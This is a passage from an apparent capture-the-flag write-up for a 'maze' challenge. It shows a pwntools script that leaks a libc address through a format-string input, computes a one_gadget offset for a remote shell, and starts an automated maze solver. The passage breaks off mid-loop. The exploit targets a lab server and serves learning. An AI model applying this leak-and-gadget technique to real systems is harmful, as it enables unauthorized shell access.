 With this information I was able to calculate the libc base address:

```
libc_base = leaked __libc_start_main_ret - 0x020830
```

Now I only had to find a suitable gadget to launch a remote shell. I used
[one_gadget](https://github.com/david942j/one_gadget) for that. The following script, which was partially written by
[DrSchottky](https://github.com/DrSchottky) calculates the libc base address, solves the maze, stores the gadget address
in the pointer table and then jumps there:

```python
from pwn import *

context.binary = './maze'
nc = remote('whale.hacking-lab.com', 7331)

nc.sendlineafter('>', '%19$p')
nc.sendlineafter('>', '3')
nc.sendlineafter('>', 'whoami')

leak = nc.recvuntil('>')
pos = leak.find('0x7f')

leak = leak[pos:pos + 14]
leak = int(leak, 16)

libc_offset = 0x20830
gadget_offset = 0x4526a

libc_base = leak - libc_offset
gadget_address = libc_base + gadget_offset

currentPoint = (0, 0)
visited = [currentPoint]
moves = []
haveKey = False

nc.sendline('whoami')

while True:
  current = nc.recvuntil('>')
  print current

  canGoUp = True
  canGoDown = True
  canGoRight = True
  canGoLeft = True

  for line in current.split("\x1b"):
      currentLine = line.strip()

      if currentLine == "[9;10H|":
         canGoLeft = False

      if currentLine == "[9;16H|":
         canGoRight = False

      if currentLine == "[7;10H+-----+":
         canGoUp = False

      if currentLine == "[11;10H+-----+":
         canGoDown = False
```